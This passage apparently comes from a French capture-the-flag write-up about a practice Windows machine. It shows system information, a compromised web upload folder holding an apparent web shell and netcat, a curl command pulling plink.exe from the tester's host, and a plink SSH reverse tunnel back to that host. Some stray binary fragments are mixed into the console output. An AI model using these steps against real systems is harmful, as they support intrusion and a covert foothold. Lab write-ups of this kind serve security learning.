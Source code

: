~~~
System Locale:             en-us;English (United States)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,556 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,828 MB
Virtual Memory: In Use:    1,971 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.198
                                 [02]: fe80::597f:2bf8:c62c:6a27
                                 [03]: dead:beef::29a8:b2bb:51e7:b20c
                                 [04]: dead:beef::597f:2bf8:c62c:6a27
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
~~~

Architecture 64 bits

Port forwarding port 8888 pour executer l'exploit

Pour en savoir plus sur le port forwarding et les tunnels ssh, consultez: [SSH Port forwarding - Cheat sheet](https://0xss0rz.github.io/2020-11-21-SSH-Tunneling/)

Download plink à partir de putty https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Uploader plink sur la cible

~~~
C:\xampp\htdocs\gym\upload> curl http://10.10.14.56/plink.exe --output plink.exe
�PNG
�

C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

14/11/2020  08:23    <DIR>          .
14/11/2020  08:23    <DIR>          ..
14/11/2020  08:23                53 kamehameha.php
14/11/2020  07:27            59,392 nc.exe
14/11/2020  08:23           675,752 plink.exe
               3 File(s)        735,197 bytes
               2 Dir(s)   7,856,263,168 bytes free

C:\xampp\htdocs\gym\upload> 

C:\xampp\htdocs\gym\upload>plink.exe -ssh root@10.10.14.56 -R 8888:127.0.0.1:8888
plink.exe -ssh root@10.10.14.56 -R 8888:127.0.0.1:8888
FATAL ERROR: Network error: Connection timed out

C:\xampp\htdocs\gym\upload>
~~~

